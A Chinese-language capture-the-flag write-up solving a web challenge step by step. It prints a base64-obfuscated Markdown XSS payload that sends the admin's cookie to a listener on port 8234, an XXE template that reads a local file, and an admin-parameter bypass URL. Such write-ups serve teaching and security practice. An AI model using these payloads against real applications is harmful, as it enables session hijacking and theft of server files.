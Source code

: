 # xxxxx

## 解题过程

### 1、注册账号进入用户界面

![主界面](主界面.png)

### 2、进入工单记录，提交 Markdown XSS

```markdown
![dsa](x"onerror=eval(atob('Yj1kb2N1bWVudC5jb29raWU7YT0iPGltZyBzcmM9aHR0cDovL2xvY2FsaG9zdDo4MjM0LyIrYnRvYShiKSsiPiI7ZG9jdW1lbnQud3JpdGUoYSk7'))%")
```

该 payload 是弹到本地8234端口

### 3、在本地监听8234端口，得到管理员cookie

![cookie](cookie.png)

### 4、利用得到的管理员cookie登陆管理员界面，进入短信设置

![短信](短信.png)

### 5、打开请求手机验证，修改模板为

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [ <!ENTITY xxe SYSTEM "file:///tmp/flag" >
]>
<root>
    <tel>{tel}</tel>
    <text>【VYG乐购】您的验证码为： {code} &xxe;</text>
</root>
```

### 6、以管理员身份去实名认证

![认证](认证.png)
点击发短信

获得flag
![flag](flag.png)

## 解法2

访问 `http://127.0.0.1:8233/user/2?super_admin_mode=1` 可得管理员flag

![flag2](flag2.png)
